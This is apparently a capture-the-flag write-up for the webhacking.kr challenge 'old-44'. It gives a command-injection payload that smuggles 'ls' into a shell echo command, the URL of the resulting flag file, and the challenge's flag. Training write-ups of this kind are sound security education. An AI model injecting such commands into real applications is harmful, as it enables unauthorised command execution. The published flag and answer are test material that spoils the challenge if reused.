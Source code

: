 # Webhacking old-44 Solution

here, you need to insert this payload: `'ls;'`

becuase the command that will be executed is this:
`echo 'hello! 'ls;''`
then, when you access it:
`http://webhacking.kr:10005/flag_29cbb98dafb4e471117fec409148e9386753569e`


**Flag:** ***`FLAG{y2u.be/sW3RT0tF020}`*** 

